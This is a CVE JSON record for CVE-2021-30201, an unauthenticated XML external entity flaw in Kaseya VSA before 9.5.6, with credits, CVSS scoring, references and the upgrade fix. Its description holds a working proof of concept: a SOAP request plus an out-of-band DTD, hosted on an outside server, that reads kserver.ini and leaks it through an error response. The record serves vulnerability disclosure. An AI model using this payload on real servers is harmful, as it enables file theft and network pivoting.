 ```yaml
---
layout: cve-json-40
discovered_by:
  - Wietse Boonstra
json: {
    "CVE_data_meta": {
        "ASSIGNER" : "cve@mitre.org",
        "ID": "CVE-2021-30201",
        "STATE": "PUBLIC",
        "TITLE": "Unauthenticated XML External Entity vulnerability in Kaseya VSA < v9.5.6"
    },
    "affects": {
        "vendor": {
            "vendor_data": [
                {
                    "product": {
                        "product_data": [
                            {
                                "product_name": "Kaseya VSA",
                                "version": {
                                    "version_data": [
                                        {
                                            "version_affected": "<",
                                            "version_name": "9.x",
                                            "version_value": "9.5.6"
                                        }
                                    ]
                                }
                            }
                        ]
                    },
                    "vendor_name": "Kaseya"
                }
            ]
        }
    },
    "credit": [
        {
            "lang": "eng",
            "value": "Discovered by Wietse Boonstra of DIVD"
        },
        {
            "lang": "eng",
            "value": "Additional research by Frank Breedijk of DIVD"
        }
    ],
    "data_format": "MITRE",
    "data_type": "CVE",
    "data_version": "4.0",
    "description": {
        "description_data": [
            {
                "lang": "eng",
                "value": "The API /vsaWS/KaseyaWS.asmx can be used to submit XML to the system. When this XML is processed (external) entities are insecurely processed and fetched by the system and returned to the attacker.\n\nDetailed description\n\nGiven the following request:\n```\nPOST /vsaWS/KaseyaWS.asmx HTTP/1.1\nContent-Type: text/xml;charset=UTF-8\nHost: 192.168.1.194:18081\nContent-Length: 406\n \n<soapenv:Envelope xmlns:soapenv=\"http://schemas.xmlsoap.org/soap/envelope/\" xmlns:kas=\"KaseyaWS\">\n   <soapenv:Header/>\n   <soapenv:Body>\n      <kas:PrimitiveResetPassword>\n         <!--type: string-->\n         <kas:XmlRequest><![CDATA[<!DOCTYPE data SYSTEM \"http://192.168.1.170:8080/oob.dtd\"><data>&send;</data>]]>\n</kas:XmlRequest>\n      </kas:PrimitiveResetPassword>\n   </soapenv:Body>\n</soapenv:Envelope>\n```\n \nAnd the following XML file hosted at http://192.168.1.170/oob.dtd:\n```\n<!ENTITY % file SYSTEM \"file://c:\\\\kaseya\\\\kserver\\\\kserver.ini\">\n<!ENTITY % eval \"<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>\">\n%eval;\n%error;\n```\n\nThe server will fetch this XML file and process it, it will read the file  c:\\\\kaseya\\\\kserver\\\\kserver.ini and returns the content in the server response like below.\nResponse:\n```\nHTTP/1.1 500 Internal Server Error\nCache-Control: private\nContent-Type: text/xml; charset=utf-8\nDate: Fri, 02 Apr 2021 10:07:38 GMT\nStrict-Transport-Security: max-age=63072000; includeSubDomains\nConnection: close\nContent-Length: 2677\n \n<?xml version=\"1.0\" encoding=\"utf-8\"?><soap:Envelope xmlns:soap=\"http://schemas.xmlsoap.org/soap/envelope/\" xmlns:xsi=\"http://www.w3.org/2001/XMLSchema-instance\" xmlns:xsd=\"http://www.w3.org/2001/XMLSchema\"><soap:Body><soap:Fault><faultcode>soap:Server</faultcode><faultstring>Server was unable to process request. ---&gt; There is an error in XML document (24, -1000).\\r\\n\\r\\nSystem.Xml.XmlException: Fragment identifier '########################################################################\n# This is the configuration file for the KServer.\n# Place it in the same directory as the KServer executable\n# A blank line or new valid section header [] terminates each section.\n# Comment lines start with ; or #\n########################################################################\n<snip>\n```\n\nSecurity issues discovered\n---\n* The API insecurely resolves external XML entities\n* The API has an overly verbose error response\n\nImpact\n---\nUsing this vulnerability an attacker can read any file on the server the webserver process can read. Additionally, it can be used to perform HTTP(s) requests into the local network and thus use the Kaseya system to pivot into the local network.\n\n"
            }
        ]
    },
    "generator": {
        "engine": "Vulnogram 0.0.9"
    },
    "impact": {
        "cvss": {
            "attackComplexity": "LOW",
            "attackVector": "NETWORK",
            "availabilityImpact": "NONE",
            "baseScore": 7.5,
            "baseSeverity": "HIGH",
            "confidentialityImpact": "HIGH",
            "integrityImpact": "NONE",
            "privilegesRequired": "NONE",
            "scope": "UNCHANGED",
            "userInteraction": "NONE",
            "vectorString": "CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N",
            "version": "3.1"
        }
    },
    "problemtype": {
        "problemtype_data": [
            {
                "description": [
                    {
                        "lang": "eng",
                        "value": "CWE-611 Improper Restriction of XML External Entity Reference ('XXE')"
                    }
                ]
            }
        ]
    },
    "references": {
        "reference_data": [
            {
                "name": "https://csirt.divd.nl/2021/07/07/Kaseya-Limited-Disclosure/",
                "refsource": "CONFIRM",
                "url": "https://csirt.divd.nl/2021/07/07/Kaseya-Limited-Disclosure/"
            },
            {
                "name": "https://helpdesk.kaseya.com/hc/en-gb/articles/360019966738-9-5-6-Feature-Release-8-May-2021",
                "refsource": "CONFIRM",
                "url": "https://helpdesk.kaseya.com/hc/en-gb/articles/360019966738-9-5-6-Feature-Release-8-May-2021"
            },
            {
                "name": "https://csirt.divd.nl/DIVD-2021-00011",
                "refsource": "CONFIRM",
                "url": "https://csirt.divd.nl/DIVD-2021-00011"
            },
            {
                "name": "https://csirt.divd.nl/CVE-2021-30201",
                "refsource": "CONFIRM",
                "url": "https://csirt.divd.nl/CVE-2021-30201"
            }
        ]
    },
    "solution": [
        {
            "lang": "eng",
            "value": "Upgrade to version 9.5.6 or higher"
        }
    ],
    "source": {
        "advisory": "DIVD-2021-00011",
        "discovery": "INTERNAL"
    }
}
---
```


